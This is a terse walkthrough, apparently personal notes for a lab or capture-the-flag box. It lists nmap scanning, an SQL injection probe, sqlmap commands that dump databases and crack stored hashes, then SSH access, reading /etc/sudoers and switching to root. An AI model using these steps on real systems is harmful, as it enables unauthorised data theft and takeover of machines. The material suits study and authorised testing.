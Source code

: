 

## nmap
obtain data of port
```console
nmap -A ip
```

## Robots.txt
Posible data info
ip/robots.txt See data

## id
After ip/page.html?parameters=values&others=value
if id mod id = 2'

## sqlmap
obtain data from sql
```console
sqlmap -u "urlwithparameters delete %27 end" -p "parameterVulnerable" --dbms=DataBaseEngine(MySQL) --dbs
Enter [Y/N]
```

ignore information schema, mysql and test are natural

Obtain info of important database
```console
sqlmap -u "urlwithparameters delete %27 end" -D Databasetoanalize --tables --dump
Store hashes Y
use dictionary Enter
Common pasword sufizes Y

```

## ssh
access
```console
ssh user@ip
psw: password
```

## Privileges
see acces of users
```console
sudo cat /etc/sudoers
```

## Change acount
Select acount to use
```console
sudo su -
```

https://www.youtube.com/watch?v=r_M2oDc93fI